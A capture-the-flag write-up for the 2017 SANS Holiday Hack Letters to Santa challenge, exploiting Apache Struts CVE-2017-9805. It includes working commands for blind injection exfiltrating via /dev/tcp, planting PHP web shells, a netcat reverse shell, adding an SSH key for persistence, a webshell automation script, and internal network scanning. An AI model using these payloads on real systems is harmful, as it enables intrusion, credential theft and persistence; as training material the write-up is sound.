 * Question
   :PROPERTIES:
   :CUSTOM_ID: q2_question
   :END:

Investigate the Letters to Santa application at
https://l2s.northpolechristmastown.com. What is the topic of The
Great Book page available in the web root of the server? What is
Alabaster Snowball's password?

/For hints associated with this challenge, Sparkle Redberry in the Winconceivable: The Cliffs of Winsanity Level can provide some tips./

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q2_background-information
   :END:

We know that there is an application on =https://l2s.northpolechristmastown.com= that we need to investigate.
This webpage is publically accessible from the Internet and not appear to require any special measures to
access it. We do not know Alabaster password or username at the start of this challenge nor what type of
web service is running on the host.

The following hints were provided by Sparkle Redberry from completing the level
[[https://2017.holidayhackchallenge.com/game/3e813a9c-cb34-492e-a317-0dd99c8ca2e7][Winconceivable: The Cliffs of Winsanity]]:
  1. We're excited to debut the new Letters to Santa site this year. Alabaster worked hard on that project for over a year. I got to work with the development version of the site early on in the project lifecycle.
  2. Near the end of the development we had to rush a few things to get the new site moved to production. Some development content on the letter page should probably have been removed, but ended up marked as hidden to avoid added change control paperwork.
  3. Alabaster's primary backend experience is with Apache Struts. I love Apache and have a local instance set up on my home computer with a web shell. Web shells are great as a backdoor for me to access my system remotely. I just choose a really long complex file name so that no one else knows how to access it.
  4. A simple web shell is to create a PHP file in the web root with ~<?php echo "<pre>" . shell_exec($_GET['e']) . "</pre>"; ?>~. Then, I visit the URL with my commands. For example, =http://server/complexFileName.php?e=ls=.
  5. There are lots of different web shell tools available. [[https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985][You can get a simple PHP web shell that is easy to use here]].
  6. That business with Equal-Facts Inc was really unfortunate. I understand there are a lot of different exploits available for those vulnerable systems. Fortunately, Alabaster said he tested for CVE-2017-5638 and it was NOT vulnerable. Hope he checked the others too.
  7. Apache Struts uses XML. I always had problems making proper XML formatting because of special characters. I either had to encode my data or escape the characters properly so the XML wouldn't break. I actually just checked and there are lots of different exploits out there for vulnerable systems. [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Here is a useful article]].
  8. Pro developer tip: Sometimes developers hard code credentials into their development files. Never do this, or at least make sure you take them out before publishing them or putting them into production. You also should avoid reusing credentials for different services, even on the same system.

The following SANS Pentest Blog posts were also very helpful for this challenge:
- [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Why You Need the Skills to Tinker with Publicly Released Exploit Code]]
  
  Code: [[https://github.com/chrisjd20/cve-2017-9805.py]]
- [[https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee Restricted][A Spot of Tee]]
  bash shell, and bypassing the I/O restriction with tee

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q2_goal
   :END:

There are two goals for this challenge. The first is to determine the topic of
the Great Book Page that is sitting on the web root of this server. The second
is to determine what Alabaster's password is.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q2_approach
   :END:

According to the second hint there might be development code left in the production code.
If we look at the source of =l2s= the following code pops out.

#+BEGIN_SRC html
<!-- Development version -->
<a href="http://dev.northpolechristmastown.com" style="display: none;">Access Development Version</a>
#+END_SRC

Let's do some recon on the hosts:

#+BEGIN_SRC
$ nmap -sC l2s.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for l2s.northpolechristmastown.com (35.185.84.51)
Host is up (0.027s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://l2s.northpolechristmastown.com/
443/tcp  open   https
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
#+END_SRC

In addition to the hidden link for dev.northpolechristmastown.com, it is also
present as an alternate name on the certificate of the host. Let's let nmap's
scripts scan that as well.

#+BEGIN_SRC
$ nmap -sC dev.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for dev.northpolechristmastown.com (35.185.84.51)
Host is up (0.028s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://dev.northpolechristmastown.com/
443/tcp  open   https
| http-title: Toys List
|_Requested resource was /orders.xhtml
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server
#+END_SRC

We can see that dev and l2s are one and the same, which is important, since dev was not explicitly called out as being in scope. Visiting the dev page has a footer
that simply states =Powered By: Apache Struts=. Let's use this to our advantage.
Let's use the tool provided through the SANS Pentest blog,
[[https://github.com/chrisjd20/cve-2017-9805.py][cve-2017-9805.py]]. The dev page
we land on is [[https://dev.northpolechristmastown.com/orders.xhtml]] so we'll use
that to start from.

Let's check out the help:

#+BEGIN_SRC
$ ./cve-2017-9805.py
usage: cve-2017-9805.py [-h] [-u URL] -c COMMAND

optional arguments:
  -h, --help  show this help message and exit
  -u URL      url of target vulnerable apache struts server. Ex-
              http://somevulnstrutsserver.com/orders.xhtml
  -c COMMAND  command to execute against the target. Ex - /usr/bin/whoami
#+END_SRC

The example URL is =http://somevulnstrutsserver.com/orders.xhtml=. How fortituous!

#+BEGIN_SRC
$ python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'ls'
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
#+END_SRC

Looks like we need to modify the program to let us see what it's
doing by uncommenting the following line:

#+BEGIN_SRC python
print request.text
#+END_SRC

Rerunning our command now results in a lengthy Apache Tomcat error
with no apparent output from our =ls= command. We're dealing with a
blind injection so we'll need to figure out a different way to get the
output of the command. One trick we can pull is redirecting output to
a special pseudo device, ~/dev/tcp/$host/$port~. We'll need to
set up a listener on our end first:

#+BEGIN_SRC
holiday@hack:~$ nc -l -p 8888
#+END_SRC

Now we run the exploit again:

#+BEGIN_SRC
./cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "ls > /dev/tcp/1.2.3.4/8888"
#+END_SRC

The result on our end is:
#+BEGIN_SRC
holiday@hack:~$ nc -l -p 8888
bin
boot
dev
etc
home
...
vmlinuz
vmlinuz.old
#+END_SRC

It looks like we've been dropped into the root directory. Let's look for
where the web root is. Normally, the default is /var/www/html on most
linux+apache based hosts. We'll try again with the command =ls -al /var/www/html=.

#+BEGIN_SRC
total 1772
drwxrwxrwt 6 www-data           www-data              4096 Jan  6 03:00 .
drwxr-xr-x 3 root               root                  4096 Oct 12 14:35 ..
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:03 css
drwxr-xr-x 3 root               www-data              4096 Oct 12 19:40 fonts
-r--r--r-- 1 root               www-data           1764298 Dec  4 20:25 GreatBookPage2.pdf
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:14 imgs
-rw-r--r-- 1 root               www-data             14501 Nov 24 20:53 index.html
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:11 js
-rwx------ 1 www-data           www-data               231 Oct 12 21:25 process.php
#+END_SRC

Oh look. There's [[https://l2s.northpolechristmastown.com/GreatBookPage2.pdf][GreatBookPage2.pdf]]. We can download it and find the answer to the first question.

Let's assume for a minute that we didn't know where the web root
was. Since page 1 of our Great Book was a PDF, it's a pretty safe bet
that page 2 is also a PDF. It takes about half of a second to search the system for all PDFs using =find=:

#+BEGIN_SRC
$ find / -name *.pdf
/var/www/html/GreatBookPage2.pdf
#+END_SRC

*** Command Execution

 It looks like we found our web root. Let's try out the
 web shell they suggest in the hints from Josh Wright
 [[https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php][easy-simple-php-webshell.php]].
 We'll output it to a random file in the web root then
 we can try to use it to execute commands using a browser.

 #+BEGIN_SRC
 ./cve-2017-9805.py -c "wget -O /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php
    https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php"
    -u https://dev.northpolechristmastown.com/orders.xhtml
 #+END_SRC

 Now we can access
 [[https://l2s.northpolechristmastown.com/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php]]
 and look around. If we do an =ls= in this webshell, it just returns
 the local directory, =/var/www/html=. Nothing in here suggests that we
 have the webroot for the dev server,
 [[https://dev.northpolechristmastown.com]].

 Let's run =find= to see if we can find the password in our webshell.

 #+BEGIN_SRC sh
 find / -xdev -type f -user alabaster_snowball 2>/dev/null | xargs grep password
 #+END_SRC

 Within the page full of results we see this:

 #+BEGIN_SRC
 /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class: final String password = "stream_unhappy_buy_loss";
 #+END_SRC

 A closer look at =OrderMySql.class= using =cat /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class= we find:

 #+BEGIN_SRC java
 final String username = "alabaster_snowball";
 final String password = "stream_unhappy_buy_loss";
 #+END_SRC

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q2_solution
   :END:

*** What is the topic of The Great Book page available in the web root of the server?

Leveraging the Apache Struts vulnerability, we can run =ls= on the
common web root of =/var/www/html=, and get the filename of the page,
then download it via the web server. Opening it up, we see that the
topic is:

#+BEGIN_QUOTE
On the Topic of Flying Animals
#+END_QUOTE

*** What is Alabaster Snowball’s password?

The trick here is just finding the right file, and the password is in
cleartext in that file. We used =find= to =grep= all the files for
"password".

#+BEGIN_QUOTE
=stream_unhappy_buy_loss=
#+END_QUOTE

* Alternatives
   :PROPERTIES:
   :CUSTOM_ID: q2_alternatives
   :END:

*** Add an authorized_key

One thing you can do if you don't have the password yet is actually
add an SSH key to Alabaster's authorized keys file. This is
problematic since you need to know that the username is actually
=alabaster_snowball= first. Assuming you do, you can run the following
command to add your key to the file.

The command we want to run is the following, taking care not to clobber any existing authorized keys:

#+BEGIN_SRC sh
cd /home/alabaster_snowball
# Make the .ssh directory, if it doesn't exist
mkdir .ssh
# ssh is very picky about permissions, so lock this down:
chmod 700 .ssh
cd .ssh

# Create the authorized_keys file, if it doesn't exist
touch authorized_keys
# ...and lock it down
chmod 600 authorized_keys

# Append our key
echo ssh-rsa VGhpcyBpcyBub3QgcmVhbGx5IGFuIFJTQSBrZXksIGJ1dCBoZXksIHdobyByZWFsbHkgbG9va3MgYXQgYmFzZTY0IGFueXdheQo= holiday@hack | 
  tee -a /home/alabaster_snowball/.ssh/authorized_keys
#+END_SRC

For running this via the Struts exploit, we want this all as a
one-liner. Let's break this up into two parts: first, we'll create the
necessary directory and file, and ensure the permissions are correct,
then we'll add our key:

#+BEGIN_SRC sh
./cve_2017_9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 
  'cd /home/alabaster_snowball; mkdir .ssh; chmod 700 .ssh; cd .ssh; touch authorized_keys; chmod 600 authorized_keys'
./cve_2017_9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 
  'echo ssh-rsa VGhpcyBpcyBub3QgcmVhbGx5IGFuIFJTQSBrZXksIGJ1dCBoZXksIHdobyByZWFsbHkgbG9va3MgYXQgYmFzZTY0IGFueXdheQo= holiday@hack | tee -a /home/alabaster_snowball/.ssh/authorized_keys'
#+END_SRC

Then you can SSH in using your private key identity file.

#+BEGIN_SRC
holiday@hack:~$ ssh -i /home/holiday/.ssh/sans_2017 alabaster_snowball@l2s.northpolechristmastown.com
alabaster_snowball@l2s:/tmp/asnow.xq1pCkwT7LUy3iLl0AaBCc7D$ grep -A1 -R / -e alabaster_snowball
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class: final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class- final String password = "stream_unhappy_buy_loss";
#+END_SRC

Once in you are in a restricted shell but you can try to =grep= for
Alabaster's password but a regular =grep= against the entire system will
take about 1 minute then you have to parse through the results.

*** Automate the webshell

We can automate dropping a webshell and creating a mini shell to query
it. Assuming we have [[https://github.com/chrisjd20/cve-2017-9805.py]] in
the same directory we can create a script to automate exploitation and
give us a prompt to execute commands.

#+BEGIN_SRC python
#!/usr/bin/env python
from __future__ import print_function

import base64
import requests
import sys

from cve_2017_9805 import main as struts_exploit

VULNERABLE_ENDPOINT = "https://dev.northpolechristmastown.com/orders.xhtml"
BASE_URL = "https://l2s.northpolechristmastown.com/"
WEBSHELL = "4beadb1e-5ddb-4636-98a4-c2dac0f79ab3.php"
WEBSHELL_PAYLOAD = b'<?php system($_GET[cmd]); ?>\n'
WEBSHELL_PAYLOAD_ENCODED = base64.encodestring(WEBSHELL_PAYLOAD).strip()

## Emulate this command:
## /cve-2017-9805.py -c 'echo PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo= | 
##    base64 -d > /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php' -u https://dev.northpolechristmastown.com/orders.xhtml
EXPLOIT_COMMAND = "echo {} | base64 -d > /var/www/html/{}".format(WEBSHELL_PAYLOAD_ENCODED, WEBSHELL)

def run_command(command):
    url = BASE_URL + WEBSHELL
    request = requests.get(url, params={"cmd":command})
    if request.status_code == 404:
        return None
    return request.text

#Main function
def setup():
    # See if we can run the id command, and if so, we are good to go...
    out = run_command('id')
    if out and 'uid=' in out:
        return True
    sys.stderr.write("The webshell did not exist, re-exploiting.....\n")
    struts_exploit(VULNERABLE_ENDPOINT, EXPLOIT_COMMAND)
    out = run_command('id')
    if out and 'uid=' in out:
        return True
    sys.stderr.write("The struts exploit/webshell failed :-(\n")
    sys.exit(1)

def interactive():
    setup()
    while True:
        try:
            cmd = raw_input("www-data@l2s:$ ")
        except EOFError:
            print()
            return
        print(run_command(cmd))

def one_shot(command):
    setup()
    print(run_command(command))

if __name__ == "__main__":
    if sys.argv[1:]:
        one_shot(' '.join(sys.argv[1:]))
    else:
        interactive()
#+END_SRC

First we need to either rename =cve-2017-9805.py= to
=cve_2017_9805.py= or create a symlink so it can be properly imported
into our script. Then we can easily execute commands on l2s.

#+BEGIN_SRC
holiday@hack:~$ ./l2s.py id
The webshell did not exist, re-exploiting.....
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
uid=33(www-data) gid=33(www-data) groups=33(www-data)

holiday@hack:~$ ./l2s.py uname -a
Linux hhc17-apache-struts1 4.9.0-5-amd64 #1 SMP Debian 4.9.65-3+deb9u2 (2018-01-04) x86_64 GNU/Linux

holiday@hack:~$ ./l2s.py
www-data@l2s:$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@l2s:$ uname -a
Linux hhc17-apache-struts1 4.9.0-5-amd64 #1 SMP Debian 4.9.65-3+deb9u2 (2018-01-04) x86_64 GNU/Linux
#+END_SRC

*** Search even faster with ripgrep

=ripgrep= is a super fast =grep= replacement written in rust. It does a
better job at filtering binary files, so we can run this command that
finishes in about a second.

The following steps create a folder for =ripgrep= and executes the
search.

#+BEGIN_SRC sh
www-data@l2s:$ mkdir /tmp/.rg
www-data@l2s:$ wget -q -O - https://github.com/BurntSushi/ripgrep/releases/download/0.7.1/ripgrep-0.7.1-x86_64-unknown-linux-musl.tar.gz | 
  tar xzf - -C /tmp/.rg/
www-data@l2s:$ find / -type f -xdev -user alabaster_snowball 2>/dev/null | 
  xargs /tmp/.rg/ripgrep-0.7.1-x86_64-unknown-linux-musl/rg alabaster -A 1
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class: final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class- final String password = "stream_unhappy_buy_loss";
#+END_SRC

*** Get a full shell

Getting a shell is actually fairly easy. Using the struts exploit we can redirect a bash shell through netcat back to our machine like this:

#+BEGIN_SRC
./cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "nc -c /bin/bash 1.2.3.4 8080"
#+END_SRC

#+BEGIN_SRC
holiday@hack:~$ nc -l -p 8080 -vvv
Listening on [0.0.0.0] (family 0, port 8080)
Connection from [35.227.53.70] port 8080 [tcp/http-alt] accepted (family 2, sport 48164)
id
uid=1003(alabaster_snowball) gid=1004(alabaster_snowball) groups=1004(alabaster_snowball)
pwd
/
#+END_SRC

* Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: q2_common-pitfalls
   :END:

A common pitfall is the blind injection aspect of the Apache Struts exploit. There were a couple of ways around this:

  * Using the ~/dev/tcp~ trick like we did,
  * Redirect the output to =/var/www/html/$filename=, and then accessing that via the web interface,
  * Piping the output to =netcat=.

Finding the password was also tricky. Luckily, there weren't many
files on this system, so we could just =grep= everything, but another
option would've been to look for files that had been modified around
the time the system was installed.

Trying to compromise the l2s app itself was a dead end.  Once we have command
execution we can see that the process.php script is simply:

#+BEGIN_SRC php
<?php
if ($_POST["first_name"] && $_POST["age"] && $_POST["state"] && $_POST["city"] && $_POST["toy"] && $_POST["message"] && $_POST["sex"]) {
	echo "Letter has been sent to Santa!";
} else {
	echo "Error missing parameters";
}
?>
#+END_SRC

* About the Challenge
   :PROPERTIES:
   :CUSTOM_ID: q2_about-the-challenge
   :END:

Initially the host had a couple of noticeable holes.

  * Apache server running as =alabaster_snowball= (eventually changed to =www-data= user)
  * Easy bypass of rbash by adding the '-t' flag and executing =bash= on SSH login (eventually =rbash= was forced through =/etc/ssh/sshd_config=)

The server itself housed two virtual web hosts, the Letters to Santa application which ran PHP in =nginx= and the Development site which was run by Apache Struts on a high port being redirected by =nginx=.

* Moving Foward

Now that we have a script to automate access to l2s let's run =nmap= to scan the internal network.

#+BEGIN_SRC
holiday@hack:~$ ./l2s.py "nmap -sC 10.142.0.*"

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-09 20:51 UTC
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Host is up (0.00018s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http
|_http-title: Did not follow redirect to https://hhc17-l2s-proxy.c.holidayhack2017.internal/
443/tcp  open  https
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
2222/tcp open  EtherNetIP-1

Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp open  http
|_http-title: Toys List

Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
Host is up (0.00018s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 a2:c4:67:fe:a2:d9:df:47:02:55:35:1a:f4:1b:b6:02 (RSA)
|_  256 9e:d4:01:d1:71:be:95:90:68:6e:ee:87:28:42:49:8e (ECDSA)
25/tcp   open  smtp
|_smtp-commands: mail.northpolechristmastown.com, PIPELINING, SIZE 10240000, ETRN, AUTH PLAIN LOGIN, AUTH=PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp   open  http
| http-robots.txt: 1 disallowed entry
|_/cookie.txt
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
143/tcp  open  imap
|_imap-capabilities: more AUTH=PLAIN capabilities have OK Pre-login AUTH=LOGINA0001 ENABLE listed SASL-IR IDLE post-login LITERAL+ IMAP4rev1 LOGIN-REFERRALS ID
2525/tcp open  ms-v-worlds
3000/tcp open  ppp

Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Host is up (0.00014s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE
22/tcp   open     ssh
| ssh-hostkey:
|   2048 73:de:22:15:7b:53:13:85:a7:a5:8f:10:3a:5d:3b:3f (RSA)
|_  256 f5:d7:f3:5d:dc:7c:73:10:cc:f7:a4:c7:f0:d9:61:0c (ECDSA)
80/tcp   open     http
| http-robots.txt: 1 disallowed entry
|_/dev
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://edb.northpolechristmastown.com/index.html
389/tcp  filtered ldap
8080/tcp open     http-proxy
| http-robots.txt: 1 disallowed entry
|_/dev
|_http-title: Did not follow redirect to http://edb.northpolechristmastown.com/index.html

Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
Host is up (0.00021s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
| ssl-cert: Subject: commonName=hhc17-smb-server
| Not valid before: 2017-11-06T13:46:55
|_Not valid after:  2018-05-08T13:46:55
|_ssl-date: 2018-01-09T20:51:47+00:00; 0s from scanner time.

Host script results:
|_nbstat: NetBIOS name: HHC17-SMB-SERVE, NetBIOS user: <unknown>, NetBIOS MAC: 42:01:0a:8e:00:08 (unknown)
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol

Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
Host is up (0.00021s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http
|_http-title: Toys List
4444/tcp open  krb524

Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
Host is up (0.00078s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Index - North Pole Engineering Presents: EaaS!
3389/tcp open  ms-wbt-server
| ssl-cert: Subject: commonName=hhc17-elf-manufacturing
| Not valid before: 2017-11-23T20:53:55
|_Not valid after:  2018-05-25T20:53:55
|_ssl-date: 2018-01-09T20:51:47+00:00; 0s from scanner time.

Post-scan script results:
| clock-skew:
|   0s:
|     10.142.0.13 (eaas.northpolechristmastown.com)
|_    10.142.0.8 (hhc17-emi.c.holidayhack2017.internal)
| ssh-hostkey: Possible duplicate hosts
| Key 256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA) used by:
|   10.142.0.2
|   10.142.0.3
|   10.142.0.11
| Key 2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA) used by:
|   10.142.0.2
|   10.142.0.3
|_  10.142.0.11
Nmap done: 256 IP addresses (7 hosts up) scanned in 14.86 seconds
#+END_SRC
